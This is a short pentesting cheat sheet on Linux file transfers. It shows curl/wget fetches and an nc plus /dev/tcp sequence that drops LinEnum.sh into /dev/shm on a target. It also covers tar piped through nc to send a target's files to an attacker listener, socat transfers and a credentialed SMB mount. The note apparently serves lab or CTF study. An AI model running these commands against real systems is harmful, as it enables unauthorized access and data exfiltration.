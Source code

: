 # Linux File Transfers


## Utilities

```bash
curl http://$IP/$file -o $file
wget http://$IP/$file
```

## Bash Redirection

Check `mount` if /`dev/shm/` has `no exec`, this is just an example
```bash
# Use nc to serve the file
nc -lvnp 80 < LinEnum.sh
# Target machine
mount | grep shm
bash -c "cat < /dev/tcp/$IP/$PORT > /dev/shm/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

## Ncat && Nc

Target machine
```bash
tar cf - . | nc $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat

Use [[Socat]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```


## SMB Cif-Utils

```shell
sudo mount -t cifs -o 'user=$username,password=$password' //$IP/share /mnt/sharename
```

[Kali Cif-Utils](https://www.kali.org/tools/cifs-utils/)
